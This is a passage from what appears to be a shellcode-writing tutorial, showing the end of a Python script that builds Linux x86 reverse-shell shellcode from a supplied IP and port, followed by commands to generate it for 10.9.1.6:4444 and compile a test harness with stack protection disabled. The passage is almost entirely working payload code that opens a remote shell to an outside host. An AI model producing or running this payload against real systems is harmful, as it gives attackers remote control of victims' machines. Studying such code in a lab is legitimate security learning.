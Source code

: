 ```py
    shellcode += "\\x80\\x92\\xb0\\x66\\x68"
    shellcode += shellcode_host
    shellcode += "\\x66\\x68"
    shellcode += shellcode_port
    shellcode += "\\x43\\x66\\x53\\x89\\xe1\\x6a\\x10"
    shellcode += "\\x51\\x52\\x89\\xe1\\x43\\xcd"
    shellcode += "\\x80\\x6a\\x02\\x59\\x87\\xda\\xb0"
    shellcode += "\\x3f\\xcd\\x80\\x49\\x79\\xf9"
    shellcode += "\\xb0\\x0b\\x41\\x89\\xca\\x52\\x68"
    shellcode += "\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69"
    shellcode += "\\x6e\\x89\\xe3\\xcd\\x80"

    print (GREEN + "your super shellcode is:" + ENDC)
    print (GREEN + shellcode + ENDC)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument('-l','--lhost',
                         required = True, help = "local IP",
                         default = "127.1.1.1", type = str)
    parser.add_argument('-p','--lport',
                         required = True, help = "local port",
                         default = "4444", type = str)
    args = vars(parser.parse_args())
    host, port = args['lhost'], args['lport']
    my_super_shellcode(host, port)

```

Prepare listener, run script, copy shellcode to our test program, compile and run:         
```bash
python3 super_shellcode.py -l 10.9.1.6 -p 4444
gcc -static -fno-stack-protector -z execstack -m32 -o run run.c 
```

![run C code](./images/14/2021-10-16_17-38.png){width="80%"}       
